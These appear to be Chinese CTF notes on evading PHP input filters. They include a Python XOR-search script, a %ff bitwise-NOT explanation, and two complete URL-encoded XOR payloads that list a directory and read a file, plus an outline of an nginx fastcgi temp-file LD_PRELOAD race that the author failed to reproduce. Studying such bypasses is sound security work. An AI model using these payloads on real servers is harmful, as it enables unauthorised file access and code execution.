 ### 异或取反%ff

异或%ff和`~`是一个效果的

对于`count_chars`可以通过这个脚本替换

```py
str = 'acdips'
target = 'ntr'

for m in target:
    for a in str:
        for b in str:
            for c in str:
                if ord(a)^ord(b)^ord(c) == ord(m):
                    print("{} = {}^{}^{}".format(m,a,b,c))

```

1. **异或操作的性质**：任何数字与`0xff`异或都会得到其按位取反的结果。而一个数字与自己异或的结果是`0`。
2. **使用`%FF`替代**：在您不想改变原始字符串中某个位置的字符时，您可以使用`%FF`来进行异或操作。因为一个字符与`0xff`异或两次（即按位取反两次）会得到原始字符。
3. **使用三个数字替代**：当您想替换原始字符串中的某个字符时，您可以使用三个字符的异或组合来代替它。例如，为了替换`n`，您使用了`c^d^i`。为了保持其他字符不变，您需要对这三个字符进行按位取反操作。

所以，在不需要改变的位置使用`%FF`，在需要替换的位置使用三个字符的异或组合。这样，当所有这些异或操作组合在一起时，您会得到一个新的字符串，其中只有您想要替换的字符被替换，其他字符保持不变

按照这个思路

- `print_r(scandir(.)):`

  `((%8F%9E%96%9C%9C%A0%9E)^(%FF%9C%FF%9B%9B%FF%9C)^(%FF%8F%FF%96%8C%FF%8F)^(%FF%FF%FF%FF%FF%FF%FF))(((%8C%9C%9E%9C%9B%96%9E)^(%FF%FF%FF%9B%FF%FF%9C)^(%FF%FF%FF%96%FF%FF%8F)^(%FF%FF%FF%FF%FF%FF%FF))((%D1)^(%FF)));`

- `readfile(end(scandir(.))):`

  `((%8D%9A%9E%9B%99%96%93%9A)^(%FF%FF%FF%FF%FF%FF%FF%FF))(((%9A%9E%9B)^(%FF%99%FF)^(%FF%96%FF)^(%FF%FF%FF))(((%8D%9E%9E%9E%9B%96%8D)^(%9A%9B%FF%99%FF%FF%FF)^(%9B%99%FF%96%FF%FF%FF)^(%FF%FF%FF%FF%FF%FF%FF))(%D1^%FF)));`

### nginx fastcgi临时文件

Nginx 在后端 fastcgi 响应过大或请求正文 body 过大时会产生临时文件

- 请求一个过大的body，会在/proc/self/fd目录下生成临时文件
- 传一个填满大量脏数据的so文件
- 竞争LD_PRELOAD包含 proc 目录下的临时文件

我复现失败了，不知道是不是我姿势不对
